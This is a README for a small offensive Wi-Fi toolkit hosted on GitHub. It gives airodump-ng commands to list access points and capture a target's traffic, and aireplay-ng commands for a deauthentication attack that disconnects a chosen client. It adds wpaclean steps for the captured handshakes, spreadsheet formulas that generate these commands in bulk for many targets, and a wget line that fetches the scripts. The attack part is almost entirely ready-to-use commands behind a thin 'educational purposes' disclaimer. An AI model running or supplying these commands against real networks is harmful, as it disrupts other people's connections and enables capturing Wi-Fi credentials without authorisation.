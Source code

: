# Wi-Fi Toolkit

This repository contains a collection of shell scripts for performing various Wi-Fi related tasks.

## Requirements:

- Linux operating system
- airodump-ng and aireplay-ng tools (usually part of the aircrack-ng suite)
- Python 3

## Usage:

### Install
```bash
wget https://raw.githubusercontent.com/gznll/shell/main/wifi/{wifi_dump.sh,python_server.sh,death_wifi.sh}
```

### Get AP list
```bash
airodump-ng wlan0 -w out

airodump-ng --bssid 11:22:33:44:55:66 --channel 2 wlan0 -w output
aireplay-ng --deauth 10 -a 11:22:33:44:55:66 wlan0 	
wpaclean out.cap in.cap
```
output: out-01.csv

For use in xls:
replace ' ' > ''

```sh
x	dump	death	clean
=VLOOKUP(A3,F:F,1,FALSE)	=CONCATENATE("airodump-ng --bssid ",A3," "," --channel ",D3," "," wlan0 -w ",N3)	=CONCATENATE("aireplay-ng --deauth 10 -a ",A3," ","wlan0")	=CONCATENATE("wpaclean clean_",N3,".cap ",N3,"-01.cap  && ls clea*")
```
```sh
x	dump	death	clean
=ВПР(A3;F:F;1;ЛОЖЬ) 	=СЦЕПИТЬ("airodump-ng --bssid ";A3;" ";" --channel ";D3;" ";" wlan0 -w ";N3) 	=СЦЕПИТЬ("aireplay-ng --deauth 10 -a ";A3;" ";"wlan0") 	=СЦЕПИТЬ("wpaclean clean_";N3;".cap ";N3;"-01.cap  && ls clea*")
```

### Wi-Fi Dumping (wifi_dump.sh)

This script uses airodump-ng to capture Wi-Fi packets from a specific Access Point (AP).

#### Syntax:

```bash
./wifi_dump.sh MAC_ADDRESS CHANNEL [OUTPUT_FILE]
```
Arguments:
    MAC_ADDRESS: The MAC address of the target AP.
    CHANNEL: The channel the AP is operating on.
    OUTPUT_FILE: (Optional) The filename for the output capture file. Defaults to dump.cap.
    
```bash
./wifi_dump.sh 00:11:22:33:44:55 11 dump.cap
```
This will capture Wi-Fi packets from the AP with MAC address 00:11:22:33:44:55 on channel 11 and save them to dump.cap.

## Wi-Fi Deauth Attack (death_wifi.sh)
This script uses aireplay-ng to perform a deauthentication attack against a specific client connected to an AP.
#### Syntax:
```bash
./death_wifi.sh DEAUTH_COUNT MAC_ADDRESS [INTERFACE wlan0]
```
Arguments:
    DEAUTH_COUNT: The number of deauthentication packets to send.
    MAC_ADDRESS: The MAC address of the target client.
    INTERFACE: (Optional) The network interface to use. Defaults to wlan0.
```bash
./death_wifi.sh 10 00:11:22:33:44:55 wlan0
```
This will send 10 deauthentication packets to the client with MAC address 00:11:22:33:44:55 using the wlan0 interface.

Note: This script is intended for educational purposes only. Using it for malicious purposes is illegal and unethical.

## Python HTTP Server (python_server.sh)
This script starts a simple Python HTTP server on a specified port.
#### Syntax:
```bash
./python_server.sh [PORT 8000]
```
Arguments:

    PORT: (Optional) The port to listen on. Defaults to 8000.
```bash
./python_server.sh 8080
```
This will start the server on port 8080.

Note: Ensure that the current directory contains the files you want to serve.

## Disclaimer:

These scripts are provided "as is" without warranty of any kind. Use them at your own risk.

